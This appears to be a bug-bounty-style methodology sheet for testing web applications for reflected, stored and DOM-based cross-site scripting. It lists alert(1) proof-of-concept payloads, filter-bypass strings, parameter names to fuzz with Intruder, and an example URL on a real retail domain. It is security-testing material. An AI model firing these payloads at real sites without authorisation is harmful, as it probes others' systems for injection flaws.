 # Cross-Site Scripting (XSS) Methodology
(Check for unescaped input that runs JavaScript)
XSS Types
   • Reflected → input reflected and runs immediately
   • Stored → input saved and runs later
   • DOM-Based → input handled by JS in browser

1. # Reflected XSS
Test input in URL Paths (/), Hashs (#), or Query (?) parameters, Look for 200 OK and input showing in the Response or the DOM.
Example:

        GET /search?q=test123 → reflected  
try:
        GET /search?q=<script>alert(1)</script> -> Query Parameter 
        GET /search/<script>alert(1)</script> -> URL Path
        GET /search#<script>alert(1)</script> -> Hash Path


Intruder Payloads (URL/Query):
a. <script>alert(1)</script>
b. <img src=x onerror=alert(1)>
c. <svg/onload=alert(1)>
d. onmouseover=alert(1) x="
f. ’;alert(1);// 

Intruder Query Parameters {
?q=
?query=
?search=
?term=
?lang=
?locale=
?redirect=
?next=
?returnUrl=
?username=
?email=
?name=
?message=

}

Intruder URL Paths / Hash Parameters {
q=
query=
search=
term=
lang=
locale=
redirect=
next=
returnUrl=
username=
email=
name=
message=

}
 
Look in:
        • DOM
        • Response
        • HTML body
        • input fields (value="...")
        • error messages
        • reflected script tags





2. # Stored XSS
Input gets saved and shows up later, test forms that store user data (wishlist, bio, name)
Example:
        POST /profile
        {
           "bio": "<img src=x onerror=alert(1)>"
        }

        GET /account → alert(1)

<!-- Prioritize Endpoints likely to store or accept user input -->
<!-- Check Content-Security Policy -->

Stored XSS Intruder Payloads :
a. "<img src=x onerror=alert(1)>"
b. "</script><script>alert(1)</script>"
c. " onfocus=alert(1) "
d. "<svg/onload=alert(1)>"
e. %3Cscript%3Ealert(1)%3C/script%3E
f. <scr<script>ipt>alert(1)</scr</script>ipt>


Intruder Stored XSS Parameters {

"name"
"title"
"description"
"message"
"comment"
"notes"
"content"
"html"
"body"
"text"
"review"
"feedback"
"subject"
"value"
"nickname"
"label"
"query"
"email" 
"phone"
"address"
"allowed-origins"
"ROLE_CUSTOMER"
"resource_access"
"id"
"translation"

}

Works if alert(1) is stored in the Response, or fires later when viewing that field




3. # DOM-Based XSS
Payload in URL hash or param runs via JavaScript, No server involved
Example:
https://zooplus.com/dashboard#<script>alert(1)</script>

Look in JS:
        • location.hash
        • document.write
        • innerHTML
        • eval(...)

Test for both Hash Fragment (#) #<script>alert(1)</script> , and also
Query Param (?) ?q=<svg/onload=alert(1)>

Quick Payload Reference Use these in:
        • URLs
        • Params
        • JSON
        • Forms

Intruder Payloads : 
a. <script>alert(1)</script>
b. <img src=x onerror=alert(1)>
c. <svg/onload=alert(1)>
d. " onmouseover=alert(1)
e. ';alert(1);//  
f. </textarea><script>alert(1)</script>
g. %3Cscript%3Ealert(1)%3C/script%3E
h. <scr<script>ipt>alert(1)</scr</script>ipt>

Intruder URL Query Parameters : 
?returnUrl=
?redirect=
?next=
?url=
?page=
?target=
?ref=
?callback=
?lang=
?theme=
?template=
?allowed-origins=
?resource_access= 


Intruder Hash Fragment Parameters : 
#index=
#token=
#access=
#id=
#section=
#path=
#page=
#view=
#tab=
#theme=


Bonus Checks
   • CSP headers (Content-Security-Policy)
   • Filter bypass with broken HTML e.g <scr<script>ipt>alert(1)</scr</script>ipt>






